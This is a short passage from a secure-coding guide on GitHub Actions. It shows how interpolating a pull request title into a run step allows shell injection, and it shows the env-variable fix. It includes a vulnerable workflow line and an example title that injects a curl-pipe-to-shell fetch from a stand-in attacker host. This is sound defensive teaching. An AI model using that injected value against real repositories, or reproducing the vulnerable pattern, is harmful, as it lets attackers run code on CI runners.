**5. Pasting a pull request title into run.**

```yaml
      - run: echo "Checking ${{ github.event.pull_request.title }}"
```

Symptom: a pull request titled `x"; curl evil.example/x.sh | sh; "` runs the attacker's script on your runner. Fix: pass it through `env:` (`TITLE: ${{ github.event.pull_request.title }}`) and write `echo "Checking $TITLE"`. The shell then treats it as text, never as code.
